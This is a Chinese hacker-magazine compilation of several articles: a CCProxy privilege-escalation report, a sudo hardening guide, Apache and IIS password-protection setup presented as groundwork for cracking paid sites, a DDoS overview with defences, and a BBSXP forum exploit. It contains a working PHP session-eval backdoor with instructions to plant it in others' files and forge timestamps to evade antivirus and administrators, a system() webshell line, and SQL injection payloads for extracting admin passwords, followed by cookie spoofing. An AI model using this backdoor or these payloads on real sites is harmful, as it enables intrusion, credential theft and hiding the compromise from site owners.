注：在这种模型下，C 上可以运行大部分程序，但是还有一些程序是不能正常运行的，主要是一些需要主机 C 向远程主机 B 发送请求的服务将无法正常使用。呵呵，是不是想到 FTP 的其中一种工作模式了。

安全就是这样的，想要安全，那么必定要做出一部分的牺牲。但是，只要对上面的配置稍加扩展，我们就可以避免一些牺牲。例如，通过 PortMap 等工具，将主机 C 的一些指定端口映射出去，那么也可以保证较大的安全性。

（本文所涉及的 PortMap 本刊光盘已收录）


# 小心！CCProxy 权限继承

wincss

CCProxy 是一个国产的代理服务器软件，这个软件给我们提供了多种代理服务，简单易用，是小型网络最合适的代理服务器软件。但是，就是这样的一个软件，出现了很严重的本地权限提升漏洞！这还要我从组局域网开始说。

最近我买了一个交换机，在家里两台机器和 ADSL 猫之间连了一个小局域网，在我的机器上装了一个 CCProxy 当作代理服务器使用，安装成 NT 服务。近日看了 CCProxy 的帮助，各种操作都没有写清楚，顺手点击了帮助里的链接，去他们的网站上看看。

在网站上，我点击了几个下载链接，我不常使用的 NetTransport 竟然出现了，右键点击链接，里面竟然没有“用 FlashGet 下载”这一项。要知道，我特地把 NetTransport 的监视功能禁用了，右键菜单根本不可能没有“用 FlashGet 下载”这一项！

出现这些现象，我都没有在意。只好在 IE 的工具栏上点击了 FlashGet 的按钮，下载过东西之后，习惯性地双击文件打开，竟然弹出提示窗口，如图 1。


图 2

监控程序由于没有足够权限而报错了，但是 CCProxy 的绿色小图标仍然从任务栏的右下角冒了出来。仍然双击这个图标，再点“帮助”，点击“链接”，由于我是 Guest 用户，我没有拨号上网，正提示了“找不到服务器”。打开任务管理器，IE 仍然是 SYSTEM 权限，我可以在 IE 中运行任何程序！Windows 系统中牢固的权限管理机制被 CCProxy 打破了。


图 1

确定后，WinRAR 正常打开了文件。我以为是偶然的错误，毕竟 Windows 这种东西偶然性还是很大的。关上 RAR 重新打开，仍然提示错误。认真看了这个提示之后，惊异地发现这个提示中写的用户名竟然是 LocalService，难道……打开任务管理器，吓我一跳，我的 IE、FlashGet 竟然都是用 SYSTEM 用户运行的，如图 2。

分析原因，我打开的 CCProxy 帮助窗口继承了 CCProxy 的 SYSTEM 用户，IE 继承了帮助的用户，FlashGet 又继承了 IE 的用户。你可以想象么？当一个 Power Users 组的用户登录的时候，我们可以轻易地用 CCProxy 得到 SYSTEM 权限，做任何我们想做的事情。

随即开始更深入的测试。启用了我机器上的 Guest 用户，用 Guest 重新登录，登录进去之后，弹出了若干错误提示，我的杀毒软件邮件监控程序由于没有足够权限而报错了……


图 3

究其原因，是 CCProxy 服务的“允许服务与桌面交互”选项（如图 3），把 SYSTEM 用户的程序（服务）的控制权提供给了系统中的任意用户。用户只要简单操作就可以让自己的程序以 SYSTEM 用户运行，达到权限提升的目的！希望今后蓝志公司升级 CCProxy 的时候能够考虑一下权限的问题，把这个本地权限提升漏洞补好，毕竟现在用 CCProxy 的人还多着呢。

（本文所涉及的 CCProxy 本刊光盘已收录）

# 打造安全的 sudo 规则

姜超

架构过服务器的朋友们都知道，系统管理员在服务器里可是个非常重要的角色，因为他在服务器上具有所有的权限，他能做任何事情，这也是黑客们梦寐以求的东西。所以大家要时刻注意系统管理员这个账号，不要让它因为某些事情出错而导致权限外泄。对于一个大、中型的服务器系统，其中的用户非常多，尤其是国外的服务器，一台主机上有上百个账号也不足为奇。要管理这么多账号也不是一件容易的事情。在 Linux 下大部分重要工作都是由 root 来操作的，那么要是什么事情都要用 root 来管理和解决，我相信 root 会很劳累的，所以这时就要把工作分担给一些用户，让他们来帮你完成工作，这样 root 的压力就会减少了。

上面提到用户管理方面，其实用户管理说白了，也就是用户的增、删，密码的更改管理。这些工作我们要分发给一个用户，让他完成。这就要用到 Linux 下的一个 sudo 工具了，它就是可以把某个命令（需要 root 权限的命令）指派给某一个用户，让他可以使用。这样他就能使用这个命令了。在 Linux 下更改一个用户的密码的命令是“passwd”。在这里我就拿 passwd 命令来讲解，大家可以根据我的思路举一反三地对其他命令进行配置。

```bash
[liangchao@jiangchao ~root]$ passwd
Changing password for user jiangchao.
(Current) UNIX password:
...
[liangchao@jiangchao ~root]$ passwd root
passwd: Only root can specify a user name.
```

首先我用 jiangchao 这个用户登录系统，然后使用 passwd 来修改自己，我们也看到了，这里是可以修改的。第 2 次我们又用 passwd 来修改 root 这个账号，结果已经证明是不能修改的了。

这里有人会问，既然用户能自己修改自己的密码，那么为什么还需要一个用户来管理我们密码问题？这是因为如果你们的账号因为种种原因导致不能使用，例如：自己忘记密码，或者由于你的密码太简单被黑客盗取，导致你无法登录系统，那么当然需要一个管理员用户的人来帮你重新更改密码。好了，那么我就来演示如何让一个用户继续持有常用密码权限的工作：

```bash
## /etc/sudoers
useradmin ALL=PASSWD: ...

[root@jiangchao /]# su - useradmin
[useradmin@jiangchao /]$ sudo /usr/bin/passwd jiangchao
Changing password for user jiangchao.
New UNIX password:
BAD PASSWORD: it is based on a (reversed) dictionary word
Retype new UNIX password:
passwd: all authentication tokens updated successfully

[useradmin@jiangchao /]$ sudo /usr/bin/passwd root
Changing password for user root.
New UNIX password:
BAD PASSWORD: it is based on a (reversed) dictionary word
Retype new UNIX password:
passwd: all authentication tokens updated successfully
```

# 一、测试环境：RHEL4

# 实战一、正常配置 sudo

我们先来了解一下 passwd 命令，这条命令是用来更改用户密码的一个命令，让我们来看看它在 RHEL4 下是什么权限。

```bash
[root@jiangchao /]# ll /usr/bin/passwd
-r-s--x--x 1 root root ... /usr/bin/passwd
```

大家看到了吧，这个命令是由 root 所掌管的，但是普通用户也可以执行。但是他们只能修改自己的密码，而不能修改其他用户的密码；root 可以更改所有用户的密码。例如：

```bash
[root@jiangchao ~]# useradd useradmin
[root@jiangchao /]# passwd useradmin
Changing password for user useradmin.
New UNIX password:
BAD PASSWORD: it is based on a (reversed) dictionary word
Retype new UNIX password:
passwd: all authentication tokens updated successfully

[root@jiangchao /]# visudo
useradmin ALL=PASSWD: /usr/bin/passwd
```

以上操作就是把 passwd 这个命令让 useradmin 这个普通用户来使用的过程，很简单吧。在普通人眼里以上操作就算完成了，但是再考虑安全方面，那真是糟透了。从上面的例子我有意地已经把漏洞指出了，也就是说这个 useradmin 用户连 root 密码都可以更改。要是 useradmin 这个用户不幸被黑客利用，那么他直接就可以给 root 更改个密码，然后用 root 账号登录搞破坏。那么想想，这是相当严重的事情。所以说有关 root 安全的东西千万别乱让别人使用，所谓信谁都不如信自己。

我们如何解决这个问题呢？只要我们能禁止让 useradmin 更改 root 的密码就可以。要是再严格些，就连 UID 号小于 500 的用户都不能更改他们的密码（UID 500 以前的被列为系统用户，500 以后的才是普通用户）。那么要实现这个功能，我想过了，可以写一个 shell 脚本来完成。下面我就来详细说明一下。

# 二、安全配置 sudo

```bash
[root@jiangchao sudo]# vi sudo-passwd
#!/bin/bash
read -p "please enter username:" USERNAME
USERID=`id -u $USERNAME`
if [ $USERID -le "500" ]; then
  echo "can't change uid <=500 users"
else
  passwd $USERNAME
fi
```

以上脚本完全可以解决我们的问题。在这里我稍微讲解一下，`id -u $USERNAME` 这个是得到你要更改用户的 UID 号，`$USERID -le "500"` 这句话是判断 UID 号是否 `<=500`（-le 是小于等于的意思）。这个脚本的意思就是判断你要修改的用户是否是系统用户，如果是就不让修改，如果不是就可以修改。大家如果不会 shell 编程的话，可以找资料看看基础的东西。好了，一个脚本足以解决一切，但是大家干什么事的时候都要有戒心，这样才能搞好安全。脚本是写完了，但是我们要针对这个脚本做一些安全工作。

```bash
[root@jiangchao sudo]# ll sudo-passwd
-rw-r--r-- 1 root root ... sudo-passwd
```

大家看到了吧，开放的权限还是很多嘛。因为这是个要执行的脚本，所以我们要给它设置成可执行模式，但是我们又不希望别人能看到它，那么就去掉所有权限，只保留可执行模式即可。

```bash
[root@jiangchao sudo]# chmod 100 sudo-passwd
[root@jiangchao sudo]# ll sudo-passwd
---x------ 1 root root ... sudo-passwd
```

大家可以看到这个脚本现在只有 root 用户可以执行，其他用户没有权利执行。现在我们就可以把这个脚本放到 sudo 规则里了，让 sudo 通过这个脚本间接执行 passwd，就可以做到限制 useradmin 用户更改系统账号密码的作用。

```bash
[root@jiangchao /]# mkdir /sudo
[root@jiangchao sudo]# cp /root/sudo-passwd ./
[root@jiangchao /]# visudo
useradmin ALL=PASSWD: /sudo/sudo-passwd
[root@jiangchao sudo]# su useradmin
[useradmin@jiangchao sudo]$ sudo /sudo/sudo-passwd
please enter username: jiangchao
Changing password for user jiangchao.
New UNIX password:
BAD PASSWORD: it is based on a (reversed) dictionary word
Retype new UNIX password:
passwd: all authentication tokens updated successfully

[useradmin@jiangchao sudo]$ sudo /sudo/sudo-passwd
please enter username: root
can't change uid<=500 users
[useradmin@jiangchao sudo]$
```

我们这回就完成了比较安全的 sudo 设置。大家可以举一反三，以后要是用 sudo 做一些对 root 有威胁的命令时，大家可以利用脚本来做限制，这样就可以打造比较安全的系统了。


关于 php 后门的隐藏，以前的高手们都有不同的方法，一般都是插在图片或 php 文件里，或是起一个比较容易误解的文件名，但是还是难免被找到。有两个原因：第一，后门被杀毒软件找到了；第二，被管理员根据文件的修改时间找到了。冰狐写过一个可以修改文件时间的程序，但是我没用过，听说不可以在 guest 权限下使用。我就写了一个可以在 php 环境下修改文件最后修改时间的 php 代码，加在小 A 的 phpspy2005 里了，等下给大家演示一下。我就不在这里啰嗦了（不小心，其实目的暴露了，好激动啊）。

首先，我们都知道杀毒软件都是依赖关键词来查找后门的。在此 PS 一句，不用说大家也知道像 angel 的 phpspy 一定是会被主流杀掉的，所以说做后门就是要默默无闻。假设我们的后门没有关键词呢？不知道大家是否知道海阳 CS 后门就是可以自由自在地在主机上裸奔的？php 也设这样的后门啊，我们自己来写。首先我们要知道原理，其实就是把代码写到了 session 过程里，然后执行 session 里的代码。这样是很简单的事情，只是 php 要解决转义的问题，但是没问题的，假设我们的 php 代码是 base64 的话，还会存在这样的问题么？

可是呢，由于有的读者没学 php，所以我在这里把自己写的代码给出来。

```php
<?php
session_start();
isset($_POST['code']) && $_SESSION['theCode'] = trim($_POST['code']);
isset($_SESSION['theCode']) && eval(base64_decode($_SESSION['theCode']));
?>
```

在这里，代码的 `session_start()` 是开始一个 session，然后下面一句就是建立 session 内容为我们提交的代码。最后一句就是执行我们的代码。注意这里有个 `base64_decode`，就是这个函数把我们提交的 base64 代码还原后再执行的。

鱼鱼根据海阳的客户端我改写了一个用于 php 环境下的，现在来给大家演示一下使用的方法。首先，我们把上面的服务端加到对方的 php 文件里，或者直接保存。然后在客户端把地址填写上去。我在客户端设置了几种常见的后门，大家可以选择一个然后点提交。如图1、图2，没有任何问题吧？


当我们把后门插到别人原本的文件里，Windows 会记录文件的修改时间，很郁闷的，我们要是改动了文件的内容就会被查到。大家来跟我修改文件的时间吧，guest 权限的，HOHO～是主机都可以改啊。

在这里我拿我本地的 faq.php 来给大家测试。我在里面写了 `<?system($c);?>` 这么一句来执行 CMD。大家可以看到图3，文件的修改时间管理员是可以看到的，我们现在来修改时间。

我在这里要把 faq.php 的时间改成和 global.php 一样。在路径那里我们就如同图2一样地修改。然后我们再点修改时间，一个简单的过程。大家可以看图4，这个文件的修改时间就被我们修改得和 global.php 的时间一样了。当然，我们也可以自定义时间！像图5我就把那个文件改成了自己生日那天。


当然，不是在自己的机器上就不要随便把时间改成自己的生日哦，虚荣心不是这样子搞的。本人比较菜，初学网络不久，毕竟还是误导了不少菜鸟读者，所以有纰漏和错误是难免的，大家可以到 http://www.hackerxfiles.net/bbs 指教我。


俗话说，天下没有免费的午餐。各类网站都披上了为特殊需求的消费者服务的伪装外衣，打出了“收费网站——VIP会员专区”这张能大笔赚钱的“王牌”。正当网站经营者大赚特赚的时候，可苦了我们这些渴求学习更多知识、学习先进技术的穷学生。用辩证唯物主义的观点看问题，事物的发展都是相对的。“矛”和“盾”本身都是共同出现的。沿用到目前 IT 行业就出现了搞“黑客的”和“网络安全的”，搞“软件编程的”和“软件破解的”；而相对“收费网站”就滋生出“网站破解”的一些网络爱好者。

这些“网站破解”的爱好者，破解到的 AB 密码，也会公布到聚集着一些志同道合人士的交流网站：“AB 联盟网站”。而这些 AB 密码的破解，不外乎就是使用“AccessDiver”和“GoldenEye”这样的软件，使用国外的代理，在软件上挂上字典暴力破解。而字典的好坏，与网站用户密码复杂度等级等很多客观因素有关。如果你的运气够好，相信“功夫不负有心人”，一定能破解出来网站会员密码。（注：AB 网站即是公布国外用户名和密码，便于找到国外用户使用用户名和密码规律的一种交流场所。）

- “收费网站”的会员登录，一般分为两大类：
- 第一类：弹出式入口。弹出式入口是密码验证系统的一种方式。

……在“黑客基地”网站中点击“VIP会员专区”的链接中的某个教程，会弹出一个用于输入用户名、密码的提示框，这就证明这个网站的入口是弹出式的。


- 第二类：表单式入口。表单式入口区别于弹出式入口，没有弹出式用户名、密码输入框，而是一个登录页面，采用 form 表单形式将用户输入的信息（用户名和密码）提交到一个验证地址去验证。

表单式入口与弹出式入口原理类似，都是把输入信息发送到某个地址验证；通过则进入会员区，不通过则进入错误提示页面并要求重新输入。

> 小知识：几个基本概念（表单式入口、提交地址、Post data、Keyword 等术语解释）。

因为表单式入口可以使用动态网站编写代码实现，也可由后台管理程序实现，相对弹出式入口更易操作。

本文把“弹出式入口网站服务”的实现进行剖析。经过研究可分为 Linux 系统 Apache、Windows 系统 IIS，以及第三方软件服务器搭建等几类。

# 一、Linux 系统

# Apache 服务器目录安全认证

Apache 实现身份认证的基本原理是：在受限目录中添加“.htaccess”文件。当用户访问资源时系统弹出对话框要求输入“用户名/口令”，认证由系统控制而非人为程序控制。

> 测试环境：操作系统 Red Hat Linux 9.0；内核 2.4.20-8；IP 地址 192.168.10.36；前提为已安装 Apache。

- 1. 在 `/var/www/html` 下建立 `vip` 目录。
- 2. 编辑 `httpd.conf` 添加虚拟目录与目录权限配置。
- 3. 在受限目录内创建并编辑 `.htaccess` 文件。

```bash
mkdir /var/www/html/vip
```

```apache
Alias /vip "/var/www/html/vip"
<Directory "/var/www/html/vip">
  Options Indexes MultiViews
  AllowOverride AuthConfig
  Order allow,deny
  Allow from all
</Directory>
```


```apache
## 在 /var/www/html/vip/.htaccess
AuthName "黑客X档案"
AuthType Basic
AuthUserFile /usr/local/apache/secrets/.htpasswd
AuthGroupFile /usr/local/apache/secrets/.htgroup
Require group hackbase
Require valid-user
```

建议密码文件使用“.htpasswd”，因为 Apache 默认对“.ht”开头文件限制外部读取，安全性更高。

参数 `Require group` 用于指定可访问认证资源的用户组。资源目录再次被访问时，系统会弹出对话框要求输入用户名和口令。

> 小知识：基于 IP/主机名的认证（Allow / Deny / Order 指令组合示例，如 `Allow from address`、`Deny from 192.168.0.205`、`Order deny,allow` 等）。

# 黑客研究院

图3

第4步：编辑认证用的组文件——主要用于存放可以访问受限资源的组名以及其中的用户，用 `vi` 编辑组文件 `.htgroup`。

```bash
hackbase:Hacker
hackbase:Cracker
hackbase:Programmer
## 存放在 /usr/local/apache/secrets/.htgroup
```

图4

第5步：建立用户文件，主要用于存放某一组中的用户名和口令。

```bash
## htpasswd -c /usr/local/apache/secrets/.htpasswd Hacker
## htpasswd -m /usr/local/apache/secrets/.htpasswd Hacker
```

第6步：重新启动 Http 服务。

```bash
## service httpd restart
```

图5

至此，所有配置已经完成。访问 Linux 系统上的 Http 服务，查看实验效果，如图6所示。

图6

提醒：不要把 `.htgroup` 和 `.htpasswd` 等敏感文件放在网站目录下；若放在可访问目录中会带来明显安全风险。

> 小技巧：防止用户访问指定文件，可在目录中放置 `.htaccess`，并用 `<Files>` 规则限制访问。

```apache
<Files .htaccess>
order allow,deny
deny from all
</Files>
```

这样这三个文件就不会被用户访问了。

# 二、Windows 系统

## 1、基于 IIS 本身的目录安全认证

如果是管理员级别用户，可以通过 IIS 提供的“Internet 信息服务”进行目录安全设置。

- 1. 启动“Internet 信息服务”。
- 2. 打开“默认 Web 站点”，新建虚拟目录“Software”。
- 3. 右键“属性”，在“目录安全性”中进入“匿名访问及验证控制”。
- 4. 取消“匿名访问”，选择“基本验证”。
- 5. 点击“编辑”，输入“领域名称”。

图7

设置后，浏览该目录网页时会弹出“输入用户名和密码”窗口。由于 IIS 可与 NT 用户体系结合，输入 NT 中已建立的用户及密码即可完成访问控制。

图8

在大型公司内部，还可结合 Active Directory 进行“域”用户管理与授权；但该方式可能引入更复杂的账号维护与潜在权限风险，应谨慎采用。

## 2、基于 Windows 系统的 Apache 服务器

根据在 Linux 系统下 Apache 服务器实现身份认证的基本原理，把这种方法移植到 Windows 系统上。通过实验完全符合要求，在此奉献给大家。

第1步：编辑 `httpd.conf`，加入：

```apache
Alias /love/ "E:/love/"  # 设置虚拟目录
<Directory "E:/love/">
Options Indexes MultiViews
AllowOverride AuthConfig
Order Deny,Allow
Allow from all
Options All
AllowOverride All
</Directory>
```

本机目录为 `C:\Program Files\Apache Group\Apache2\conf\httpd.conf`。

第2步：在 `E:/love/` 下创建 `.htaccess` 文件。

```apache
authtype basic
authname "魔女の条件"
authuserfile e:/love/.htpasswd
require valid-user
```

第3步：在 `E:/love/` 下创建密码文件。

- 1. 明文密码：创建 `pass.txt`，内容格式为 `username:password`。
- 2. MD5 加密密码：在 Apache 的 `bin` 目录执行：`htpasswd -c E:\love\.htpasswd hackxfiles`，按提示输入两次密码。

重启 Apache 后，访问 `/love` 目录将要求输入用户名和密码（如图9）。

## 小技巧：创建 `.htaccess` 文件的方法

- 1. 新建文本文件 `passwd.txt`，写入认证配置后另存为 `.htaccess`（保存类型“所有文件”）。
- 2. 取消“隐藏已知文件扩展名”，将 `passwd.txt` 重命名为 `.htaccess`。
- 3. 使用 UltraEdit32 编辑并保存为 `.htaccess`。
- 4. 由于 Cmd 的 Edit 对中文支持较差，不建议用 Edit 编辑 `.htpasswd`。

```apache
authtype basic
authname "魔女の条件"
authuserfile e:/love/.htpasswd
require valid-user
```

```apache
authtype basic
authname "魔女の条件"
authuserfile e:/love/.htpasswd
require valid-user
## 保存为 .htaccess
```

## 3、基于 Windows 系统的第三方软件服务器——OmniHTTPd Web 服务器

OmniHTTPd 具备目录安全设置功能，可指定浏览目录、限制用户访问权限，并可对特定目录设置仅允许或禁止访问。

由于 OmniHTTPd 版本较低，需要把系统时间修改为 2004 年 1 月 1 日之前。为方便实验，可通过 hosts 文件将域名映射到 `192.168.10.1`。

设置方法：

- 1. 运行 OmniHTTPd Administration，添加虚拟主机 `www.hackerxfiles.net`，并把服务器根目录设置为 `E:\kiss`。
- 2. 增加虚拟目录：别名（如 `/down`），实际路径（如 `E:\kiss\down`）。
- 3. 选择安全类型“用户和目录”，新建用户（如 `hacker`），并在受保护路径中填写虚拟目录名。
- 4. 打开 `/down` 目录属性，在“用户许可”等项中继续配置访问控制。

在“用户许可”选项中，为用户“hacker”分配目录权限，并且删除列表中的“*”（允许所有用户享有默认的“Get”和“Post”权限）；在“存取屏蔽”下只选中“只读”。

至此所有配置工作已经完成，重新启动 OmniHTTPd Web 服务器。在浏览器中访问虚拟主机“www.hackerxfiles.net”的其他任何目录均可以直接进入；但当试图打开“/down”或其下的任何一个目录或目录中的文件时，均会有密码提示窗口出现，输入相应用户名密码后才能进入（注意大小写），而不同的用户进入之后会拥有不同的权限。

图12

黑客基地的“会员管理系统”，是基于 IIS 网站服务器类的第三方软件搭建的，由于包含了商业机密在此就不详细介绍了。

综合上述的四类方案，“收费网站——VIP会员专区”的搭建也不过如此。如果黑友想破解网站密码，首先要判定的就是对方服务器的系统类型，在基于其搭建的原理下手。我想一定能起到事半功倍的作用。由于偶还很菜，初来乍到，才疏学浅，知识面不广，阅历也还不够多，文章中有什么差池，还希望各位高手加以指点。我今后一定吸取经验教训，为广大黑友奉献更好更精的文章。

> （相关工具 UltraEdit32 光盘已收录。）

赵大伟

# 一、什么是 DDoS 攻击

DDoS 是英文 Distributed Denial of Service 的缩写，意即“分布式拒绝服务”，那么什么又是拒绝服务（Denial of Service）呢？可以这么理解，凡是能导致合法用户不能够访问正常网络服务的行为都算是拒绝服务攻击。拒绝服务攻击的目的非常明确，就是要阻止合法用户对正常网络资源的访问，从而达成攻击者不可告人的目的。

虽然同样是拒绝服务攻击，但是 DDoS 和 DoS 还是有所不同。DoS 侧重于通过对主机特定漏洞的利用攻击导致网络栈失效、系统崩溃、主机死机而无法提供正常的网络服务功能，从而造成拒绝服务，常见的 DoS 攻击手段有 TearDrop、Land、Jolt、IGMP Nuker、Boink、Smurf、Bonk、OOB 等；DDoS 的攻击策略侧重于通过很多“傀儡主机”（被攻击者入侵过或可间接利用的主机）向受害主机发送大量看似合法的网络包，从而造成网络阻塞或服务器资源耗尽而导致拒绝服务，分布式拒绝服务攻击一旦被实施，攻击网络包就会犹如洪水般涌向受害主机，从而把合法用户的网络包淹没，导致合法用户无法正常访问服务器的网络资源。因此，拒绝服务攻击又被称之为“洪水式攻击”。常见的 DDoS 攻击手段有 SYN Flood、ACK Flood、UDP Flood、ICMP Flood、TCP Flood、Connections Flood、Script Flood、Proxy Flood 等。

# 二、DDoS 攻击后的症状

DDoS 的表现形式主要有两种，一种为流量攻击，主要是针对网络带宽的攻击，即大量攻击包导致网络带宽被阻塞，合法网络包被虚假的攻击包淹没而无法到达主机；另一种为资源耗尽攻击，主要是针对服务器主机的攻击，即通过大量攻击包导致主机的内存被耗尽，或 CPU 被内核及应用程序占完而造成无法提供网络服务。

如何判断网站是否遭受了流量攻击呢？可通过 Ping 命令来测试，若发现 Ping 超时或丢包严重（假定平时是正常的），则可能遭受了流量攻击，此时若发现和你的主机接在同一交换机的服务器也访问不了，基本可以确定是遭受了流量攻击。当然，这样测试的前提是你到服务器主机之间的 ICMP 协议没有被路由器和防火墙等设备屏蔽，否则可采取 Telnet 主机服务端口来测试；效果是一样的。不过有一点可以肯定，假如平时 Ping 你的主机服务器和接在同一交换机上的主机服务器都是正常的，突然都 Ping 不通了或者是严重丢包，那么假如可以排除网络故障因素的话，则肯定是遭受了流量攻击。再一个流量攻击的典型现象是，一旦遭受流量攻击，会发现从远程终端连接网站服务器会失败。

相对于流量攻击而言，资源耗尽攻击要容易判断一些，假如平时 Ping 网站主机和访问网站都是正常的，突然发现网站访问非常缓慢或无法访问了，但还可以 Ping 通，则很可能遭受了资源耗尽攻击，此时若在服务器上用 `Netstat -na` 命令，观察到有大量的 `SYN_RECEIVED`、`TIME_WAIT`、`FIN_WAIT_1` 等状态存在，而 `ESTABLISHED` 很少，则可判定肯定是遭受了资源耗尽攻击。还有一种属于资源耗尽攻击的现象是，对自己的网站主机 Ping 不通，或者是丢包严重，而 Ping 在同一交换机上的其他服务器则正常，造成这种原因是网站主机遭受攻击后，导致系统内核或某些应用程序 CPU 利用率达到 100% 无法回应 Ping 命令，其实带宽还是有的，否则就 Ping 不通接在同一交换机上的主机了。

# 三、DDoS 攻击的类型

- 1. **SYN/ACK Flood 攻击**：这种攻击方法是经典最有效的 DDoS 方法，可通杀各种系统的网络服务，主要是通过向受害主机发送大量伪造源 IP 和源端口的 SYN 或 ACK 包，导致主机的缓存资源被耗尽或忙于发送回应包而造成拒绝服务。由于源都是伪造的故追查起来比较困难。缺点是实施起来有一定难度，需要高带宽的傀儡主机支持。少量的这种攻击会导致主机服务器无法访问，但却可以 Ping 得通，在服务器上用 Netstat -na 命令会观察到存在大量的 SYN_RECEIVED 状态，大量的这种攻击会导致 Ping 失败、TCP/IP 栈失效，并会出现系统凝固。
- 2. **TCP 全连接攻击**：这种攻击是为了绕过常规防火墙的检查而设计的，一般情况下，常规防火墙大多具备过滤 TearDrop、Land 等 DoS 攻击的能力，但对于正常的 TCP 连接是放过的，殊不知很多网络服务程序（如：IIS、Apache 等 Web 服务器）能接受的 TCP 连接数是有限的，一旦有大量的 TCP 连接，即便是正常的，也会导致网站访问非常缓慢甚至无法访问。TCP 全连接攻击就是通过许多傀儡主机不断地与受害服务器建立大量的 TCP 连接，直到服务器的内存等资源被耗尽而被拒绝，从而造成拒绝服务。
- 3. **提交脚本攻击**：这种攻击主要是针对存在 ASP、JSP、PHP、CGI 等脚本程序，并调用 MSSQLServer、MySQLServer、Oracle 等数据库的网站系统而设计的……攻击者通过 Proxy 代理向主机服务器大量递交查询指令，导致数据库与 CPU 资源被大量占用，从而引发拒绝服务。

# 四、DDoS 攻击的对策

对付 DDoS 是一个系统工程，想仅仅依靠某种系统或产品防住 DDoS 是不现实的。完全杜绝 DDoS 目前几乎不可能，但通过适当措施抵御 90% 的 DDoS 攻击是可以做到的。以下为作者多年来抵御 DDoS 的经验和建议。

- 1. 采用高性能的网络设备  
  首先要保证网络设备不能成为瓶颈，因此选择路由器、交换机、硬件防火墙等设备的时候要尽量选用性能强、口碑好的产品。
- 2. 尽量避免 NAT 的使用  
  无论是路由器还是硬件防护设备要尽量避免采用网络地址转换 NAT，因为 NAT 需要对地址进行来回转换并重新计算校验和，会明显降低通信能力并增加 CPU 消耗。
- 3. 充足的网络带宽保证  
  网络带宽直接决定了可能抗受攻击的能力。仅有 10M 带宽时很难对抗 SYN Flood，建议至少 100M 共享带宽，主干最好在 1000M 以上，并注意网卡速率与交换机端口限速的实际差异。
- 4. 升级主机服务器硬件  
  在有带宽保证前提下提升硬件配置，重点是 CPU 和内存，网卡建议选择高品质品牌型号。
- 5. 把网站做成静态页面  
  尽量将网站做成静态页面，减少动态脚本与数据库调用，可显著提升抗攻击能力并降低被拖垮风险。
- 6. 增强操作系统的 TCP/IP 栈  
  Win2000 和 Win2003 作为服务器系统本身具备一定抗 DDoS 能力，合理开启相关参数后可抵御更多 SYN 攻击包。

以上六条对抗 DDoS 建议适合大多数拥有自己主机的用户；若仍无法解决问题，则需增加服务器数量并采用 DNS 轮巡或负载均衡等方案。

曹辉  职业欠钱

最近 BBSXP 论坛可以说是一点都不平静，漏洞一个接一个暴出来。上次对 showforum.asp 这个文件的漏洞分析过后，没多久，又暴出 blog.asp 存在漏洞。

首先，我们回顾一下 showforum.asp 中的漏洞，还记得 order 变量，是经过了 HTMLEncode 过滤了以后才放到 SQL 语句中去执行的。再来看 blog.asp 中出漏洞的地方：

```asp
id=HTMLEncode(Request("id"))
if id<>"" then
  sql="select * from [calendar] where id="&id&" order by id desc"
```

id 变量同样是经过了 HTMLEncode 过滤了以后，就放到了 SQL 语句中去了。利用的方法是构造一个特殊的 id 变量，使用 UNION 查询将密码暴出来。

## 小知识：UNION 查询的基本介绍

使用 UNION 可以将多个查询结果合并起来输出，系统会自动去掉重复记录。参加 UNION 操作的各结果集列数必须相同，对应数据类型也必须相同。

```sql
select top 1 username,userpass from [user] union select 'test','12345' from [clubconfig]
```

图1

# 原理学习与分析

了解了 union 查询，我们就可以构造这个 id 了。如：`id=-1 union select 1,2,3,4,5,6,7 from [user] where membercode=5`。还原完整 SQL 语句如下：

```sql
select * from [calendar] where id=-1 union select 1,2,3,4,5,6,7 from [user] where membercode=5 order by id desc
```

此 SQL 前半部分会因为 `id=-1` 而查不出内容，1~7 对应 calendar 表中的 7 个字段，因此可看到图2所示结果。

图2

其中能显示出来的数字（如 3 和 4）可改为字段名 `username` 和 `userpass`。因为有 `membercode=5` 条件，可以把级别为社区区长的用户名和密码查出来（图3）。

图3

```sql
id=-1 union select 1,2,userpass,4,5,6,7 from [user] where username=0xD3C3BBA7
```

其中 `0xD3C3BBA7` 是“用户”的十六进制写法。上面方法在 ACCESS 版可行，但在 MSSQL 中会因查询分析器限制而报错。

在 MSSQL 版的 BBSXP 中，calendar 表 content 字段是 TEXT 类型，text/ntext/image 类型查询时不允许 DISTINCT；而 UNION 又隐含 DISTINCT，因此不能直接像 ACCESS 一样爆出密码。

```sql
id=-1 update [user] set membercode=5 where username=0xD3C3BBA7
select * from [calendar] where id=-1
```

图4

对比后发现差别在 ASP 执行方式：ShowForum.asp 使用 `Rs=Conn.Execute(sql)`，而 blog.asp 使用 `rs.Open sql,Conn,1`，后者不能修改记录。

```sql
id=1 and exists(select * from clubconfig where substring(adminpassword,1,1) between 0x30 and 0x46)
```

利用 `between ... and ...` 可逐位猜解 MD5 密文字符范围（0-9、A-F），结合 ASCII 对照进行拆半分析，逐字符确定管理员密码。

**ACCESS 版：**在“目标主机”处填写论坛地址（可不填完整路径），示例：`http://bbsxp.com/bbs/`。

# 黑客研究院

com/bbs/blog.asp 反而会失败。然后在下拉菜单中选择是要获取对方的管理员名和密码，还是要对方后台密码，点发送就 OK 了。（图5）这里有个“使用 usertop.asp 暴”，下文会介绍。


### SQL版：

速度就没 ACCESS 版那么快了，因为要一位一位地猜（周杰伦：我要，一位一位往下猜）。这次要在“关于 SQL 的 blog.asp”中的目标主机里填 URL 了，而且这次要求填完整的。比如 `http://www.cnsuv.cn/blog.asp?id=1`，这个地址必须是你输入它的时候能看到有日志的；如果没有日志的话，请自己注册个 ID 发日志（图6）。这次我们没有把获取用户名的功能加进来，大家可以自己输入 `http://bbs.yuzi.net/adminlist.asp` 到管理团队找级别为社区区长的用户名（比如这里是 yuzi），将其填入“用户名”处，点发送就可以了。（图7、图8）


好了，拿到了人家的密码了，我们可以 Cookie 欺骗做一下社区区长了。方法如下：使用桂林老兵的工具，在地址栏里输入 URL，随便注册个号登录进去，会看到 Cookie 栏里有 username 和 userpass 字段吧，在这个后面跟着的就是你的用户名和密码了，当然是加了密的。接下来，点一下“自定义 cookie”（就是那个有一个鼠标的按钮），cookie 项就变成可修改的了。将 username 和 userpass 改为你得到的数据，敲两下回车。刷新一下，看看，我们是社区区长了吧，嘿嘿。（图9、图10）


